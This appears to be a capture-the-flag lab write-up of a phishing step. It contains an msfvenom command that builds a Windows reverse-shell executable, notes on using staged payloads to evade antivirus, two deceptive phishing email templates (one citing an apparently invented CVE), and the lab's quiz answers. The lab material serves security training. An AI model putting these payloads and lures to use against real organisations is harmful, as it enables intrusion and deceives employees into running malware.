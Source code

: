 # Gone Phishing
- We now need to investigate the mail server, we have a guest account on mail server.
- However the info we could gather from that is a contact list of employee emails.
- With a list of emails, we can send out a phishing campaign to see if any of the emplooyees execute the malicious file in the email.

We already have a contact list with employee emails.
- So we have figured out our targets using the guest account.
- That gives us information like emails of the Throwback Hacks employees



## Workflow for setting up a phishing campaign
### Step 1 - Use msfvenom to generate a Windows x64 reverse shell tcp payload

- To search for appropriate payload, we can use the following command
```
msfvenom -l payloads | grep -e windows -e meterpreter -e reverse
```

```
msfvenom -p windows/x64/shell/reverse_tcp LHOST=tun0 LPORT=4444 -f exe -o Phish.exe
```
- Now we generated our payload.

### Step 2 - Now use exploit/multi/handler to catch those reverse shells.
- Now we will set up our exploit/mutli/handler which will send the payload in stages and get us our reverse shell!

Use `Msfconsole` to set it up yourselves. This basic task is left as a challenge to the reader.



#### What payloads to use? Staged or Stageless?
- There is a minor difference between the two.
- In Metasploit output, the one with 3 slashes (/) is a staged payload.
	- The bottom one is stageless which has 2 slashes.

So far, stageless payloads sound like the best payloads to use for any given task, right?
- But the answer is no!
	- Stageless payloads by design are larger because they contain everything required to land a reverse shell on your box.


The reasons thus for using staged payload instead are:
1. You could use it when you're limited on space in a Stack Based Buffer Overflow 
2. You could use it in conjunction with AV bypass techniques to sleep for a given period of time to escape a sandbox and malware scans that might detect your payload. Afterwards, reach out to your handler for the rest of the payload.
3. Staged payloads also provide the functionality to get certain features like Meterpreter.
	- For using Meterpreter we need a handler 


### Step 3 - Now we will begin phishing.
- Construct a believable phishing email with flawless punctuation and prompting/enticing the user to take action to your payload.


Example of phishing email
```
Hey everyone,


We’re releasing an update for our note-taking software. In order to keep using the software, you must perform this update prior to next Friday. Please run the attached file to this email to complete this action.


Thank you for your patience in this update.

IT Support
```



## Note - Due to lab issues, I had to change my lab network from 10.200.53.0/24 to 10.200.34.0/24
- The last 8 bits of the IP address of machines are the same so you can easily identify PROD and MAIL server.


So here the phishing template we use was the following:
```
Dear Staff,

Please download the exe file attached below to update Microsoft Teams.
This patch is issued as an immediate response to the CVE-2022-14589 which
enables adversaries to bypass Multi-Factor Authentication.

Please update as this compromises the security of the infrastructure.

Regards,
Support Staff.
```

- Now attach the file of payload we used in the email and send this email out to every email we retrieved from the Mail server using TBHGuest account.

Since we have our exploit/multi/handler already running, when a user clicks and executes the malicious exe file, we receive a meterpreter session!
![[Pasted image 20220929175640.png]]

## Here we received a connection from `10.200.34.222` machine which is BlaireJ's machine
- Thus we owned a machine from the network 

![[Pasted image 20220929175800.png]]


- After compromising `Throwback-WS01`, we can see the different users on the machine of BlaireJ
![[Pasted image 20220929180205.png]]
```
spooks
foxxr
horsemanb
humphreyw
sqlservice
```


## Questions
1. What User was compromised via Phishing? 
`BlaireJ`

2. What Machine was compromised during Phishing?
`THROWBACK-WS01`

